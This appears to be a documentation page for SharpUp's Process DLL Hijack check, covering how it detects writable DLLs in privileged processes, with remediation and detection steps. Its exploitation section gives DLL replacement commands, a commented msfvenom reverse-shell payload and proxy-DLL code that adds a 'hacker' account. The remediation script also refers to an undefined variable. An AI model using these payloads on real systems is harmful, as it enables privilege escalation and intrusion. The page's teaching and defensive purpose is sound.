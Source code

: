 ```yaml
---
title: 'Process DLL Hijack'
description: 'Writable DLLs loaded by privileged processes'
icon: 'file-code'
---
```


## Overview

The Process DLL Hijack check identifies DLL files loaded by running processes that have weak file permissions. If a DLL used by a privileged process can be modified, an attacker can inject malicious code that executes with the process's privileges.

<Warning>
This check excludes known DLLs (registered in the KnownDLLs registry key) and system32 DLLs which are typically protected.
</Warning>

## How It Works

SharpUp performs the following:

1. Reads known DLLs from `HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDlls`
2. Enumerates all running processes
3. For each process, enumerates loaded DLL modules
4. Excludes DLLs in `C:\Windows` directory
5. Excludes KnownDLLs
6. Checks if remaining DLLs are writable
7. Reports hijackable DLLs with associated process information

## Example Output

```
[+] Hijackable DLL: C:\Program Files\CustomApp\helper.dll
[+] Associated Process is CustomApp with PID 1234

[+] Potentially Hijackable DLL: C:\Program Files\AnotherApp\utils.dll
[!] Files in C:\Program Files and C:\Program Files (x86) may be false positives. Permissions should be verified manually.
[+] Associated Process is AnotherApp with PID 5678
```

## Exploitation

### Method 1: Direct DLL Replacement

```powershell
# Backup original DLL
$dllPath = "C:\Program Files\CustomApp\helper.dll"
Copy-Item $dllPath "$dllPath.bak"

# Create malicious DLL
# (Use msfvenom or custom DLL)
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll -o malicious.dll

# Replace DLL
Copy-Item C:\temp\malicious.dll $dllPath -Force

# Wait for process restart or reboot
```

### Method 2: DLL Proxying

```cpp
// Create proxy DLL that forwards to original while executing payload
#include <windows.h>

// Forward declarations for original DLL functions
#pragma comment(linker, "/export:OriginalFunction1=helper_original.OriginalFunction1")
#pragma comment(linker, "/export:OriginalFunction2=helper_original.OriginalFunction2")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        // Malicious payload
        STARTUPINFO si = { sizeof(si) };
        PROCESS_INFORMATION pi;
        CreateProcess(NULL, "cmd.exe /c net user hacker P@ss /add", NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);

        // Application continues to work normally
    }
    return TRUE;
}
```

## Remediation

<Steps>
  <Step title="Identify Writable DLLs">
    ```powershell
    # Check DLL permissions
    Get-Process | ForEach-Object {
        try {
            $_.Modules | Where-Object {
                $_.FileName -notmatch "C:\\Windows" -and
                (Test-Path $_.FileName)
            } | ForEach-Object {
                $acl = Get-Acl $_.FileName
                $writable = $acl.Access | Where-Object {
                    $_.IdentityReference -match "Users|Everyone" -and
                    $_.FileSystemRights -match "Write|Modify"
                }
                if ($writable) {
                    Write-Host "[!] Writable DLL: $($_.FileName)"
                    Write-Host "    Process: $($Process.Name) (PID: $($Process.Id))"
                }
            }
        } catch { }
    }
    ```
  </Step>

  <Step title="Fix DLL Permissions">
    ```powershell
    $dllPath = "C:\Program Files\CustomApp\helper.dll"

    # Set secure permissions
    icacls $dllPath /reset
    icacls $dllPath /inheritance:r
    icacls $dllPath /grant:r "SYSTEM:F"
    icacls $dllPath /grant:r "Administrators:F"
    icacls $dllPath /grant:r "Users:RX"
    ```
  </Step>
</Steps>

## Detection

### Defensive Monitoring

```powershell
# Monitor DLL modifications
# Enable file system auditing on application DLL folders

# Monitor Event ID 4663 for WriteData operations on DLL files
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4663} |
Where-Object {$_.Message -match '\.dll' -and $_.Message -match 'WriteData'}
```

## Related Checks

<CardGroup cols={2}>
  <Card title="Hijackable Paths" icon="route" href="/ghostpack-docs/SharpUp-mdx/checks/hijackablepaths">
    Writable folders in system PATH
  </Card>
  <Card title="Modifiable Service Binaries" icon="file-binary" href="/ghostpack-docs/SharpUp-mdx/checks/modifiableservicebinaries">
    Service executables with weak permissions
  </Card>
</CardGroup>
